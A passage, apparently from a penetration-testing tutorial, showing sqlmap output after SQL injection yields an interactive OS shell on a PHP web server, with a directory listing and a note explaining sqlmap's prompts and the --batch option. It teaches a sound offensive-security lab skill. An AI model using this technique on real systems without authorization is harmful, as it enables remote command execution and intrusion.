 ```bash
[18:06:11] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la

do you want to retrieve the command standard output? [Y/n/a] a

command standard output:
---
total 156
drwxrwxrwt 1 www-data www-data   4096 Nov 19 18:06 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```
As we can see, this time SQLMap successfully dropped us into an easy interactive remote shell, giving us easy RCE through this SQLi.
>[!Note] 
>SQLMap first asked us for the type of language used on this remote server, which we know is **PHP**. Then it asked us for the server web root directory, and we asked SQLMap to automatically find it using **'common location(s)**'. Both of these options are the default options, and would have been automatically chosen if we added the '``--batch``' option to SQLMap.
